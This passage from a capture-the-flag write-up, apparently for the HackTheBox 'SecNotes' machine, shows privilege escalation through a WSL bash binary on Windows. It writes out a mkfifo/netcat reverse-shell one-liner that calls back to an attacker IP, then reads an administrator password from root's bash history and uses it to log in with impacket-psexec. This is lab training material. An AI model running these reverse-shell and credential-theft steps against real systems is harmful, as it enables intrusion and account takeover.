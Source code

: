 ```sh
# find the wsl binary
dir /s/b *wsl*.exe

cd C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\

.\wsl.exe whoami
# no output?

# try bash exe again
dir /s/b *bash*.exe
cd C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\
.\bash.exe -c whoami
# no output

# maybe I can still get code execution without seeing the output?
.\bash.exe -c "ping -c3 10.10.14.10"
# local listener:
❯ sudo tcpdump -vvv -nn -i tun0 icmp
# and I see pings!
```

Now trying to get reverse shell:

```sh
# start local listener:
❯ sudo rlwrap nc -lvnp 443

# kick off shell:
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/f"
```

I get a callback, and I'm root! However, I can't access folders that `tyler` can't already access :'(

However, maybe there are interesting files in the Linux filesystem. Searching around for creds, find this:

```sh
cd /root
cat .bash_history
# smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

Now we can psexec into the box!

```sh
❯ impacket-psexec 'secnotes.htb/administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97'
```



# Tips from A-rey
